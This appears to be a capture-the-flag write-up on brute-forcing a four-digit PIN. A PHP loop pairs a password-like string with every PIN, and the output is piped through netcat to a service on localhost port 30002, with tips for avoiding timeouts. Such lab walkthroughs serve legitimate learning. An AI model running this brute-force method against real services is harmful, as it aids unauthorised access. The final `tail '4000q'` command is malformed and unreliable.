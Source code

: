 `for($i=0;$i<10000;$i++)`
<br>
`{`
<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`if(strlen($i)==1)`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`{`
	<br>
                &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ "."000".$i."\n";`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`}`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`else if(strlen($i)==2)`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`{`
	<br>
                &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ "."00".$i."\n";`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`}`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`else if(strlen($i)==3)`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`{`
	<br>
                &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ "."0".$i."\n";`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`}`
	<br>
        &nbsp;&nbsp;&nbsp;&nbsp;`else`
	<br>
	&nbsp;&nbsp;&nbsp;&nbsp;`{`
	<br>
		&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ".$i."\n";`
	<br>
	&nbsp;&nbsp;&nbsp;&nbsp;`}`
	<br>
`}`

Now copy the output and paste it a file.

I had issues sending the whole 10000 entries to the service on port  30002 while using the command `cat numberfile | nc 127.0.0.1 30002 > output.txt` as it was timing out at **7178**<sup>th</sup> entry. (The above specified command will try all the 10000 entries starting from 0000 to 10000, it pipes each and every entry to the `nc` command and then appends the output to that file named **output.txt**)

Another tip to avoid timeouts is to check the combinations in sets, Use `uniq` command to find the password in the file. `uniq output.txt`. If you are getting timeouts, send inputs in 4000, such that    such that the password can be found in 2-3 attempts.

After running the command `cat numberfile | nc 127.0.0.1 30002 > output.txt`, we will be left with **output.txt**. On doing a `cat`
 command we see that the timeout occurred at **7178**, in this case we subject last **4000** entries using `tail '4000q' | nc 127.0.0.1 30002 > final_result.txt`
